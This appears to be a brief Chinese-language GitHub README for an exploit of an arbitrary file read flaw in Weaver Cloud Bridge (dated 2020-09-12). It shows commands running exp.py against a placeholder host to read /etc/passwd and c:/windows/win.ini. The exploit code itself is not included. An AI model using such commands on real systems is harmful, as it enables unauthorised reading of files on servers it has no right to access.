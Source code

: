 # 泛微云桥任意文件读取漏洞(2020-09-12)

## 使用方式
* Linux

  ```shell
  python2 exp.py http://127.127.127.127 /etc/passwd
  ```

  

* WIN

  ```shell
  python2 exp.py http://127.127.127.127 c:/windows/win.ini
  ```

  

## 效果
![result](./result.png)
